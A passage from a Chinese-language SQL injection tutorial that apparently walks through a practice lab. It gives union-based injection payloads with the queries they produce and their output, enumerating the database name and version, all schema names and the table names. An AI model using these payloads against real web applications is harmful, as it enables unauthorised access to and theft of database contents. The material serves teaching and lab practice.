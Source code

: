 `?id=-1' union select 1,database(),version()--+ `

> select * from users where id='-1' union select 1,database(),version()--+' limit 0,1

> **Your Login name:security**
> **Your Password:5.7.26**

数据库名称：**securit**
数据库版本：**5.7.26** <a name="xvLPE"></a>

# 5.使用对应SQL进行注入

> group\_concat()函数可以让多个数据在一行显示

<a name="EVRXH"></a>

## 查看所有数据库名称

`?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata--+`

> select * from users where id='-1' union select 1,2,group\_concat(schema\_name) from information\_schema.schemata--+' limit 0,1

> Your Login name:2
> Your Password:**information\_schema,challenges,dvwa\_com,mysql,performance\_schema,security,sql,sys**

> **存在的数据库：**
> **information\_schema**
> **challenges**
> **dvwa\_com**
> **performance\_schema**
> **security**
> **sql**
> **sys**

<a name="eGmlZ"></a>

## 查看使用数据表名称

`?id=-1' union select 1,2,group_concat(table_name)from information_schema.tables where table_schema=database()--+  `

> select * from users where id='-1' union select 1,2,group\_concat(table\_name) from information\_schema.tables where table\_schema=database()--+' limit 0,1

> Your Login name:2
> Your Password:**emails,referers,uagents,users**

> **表名**
> **emails**
> **referers**
> **uagents**
> **users**
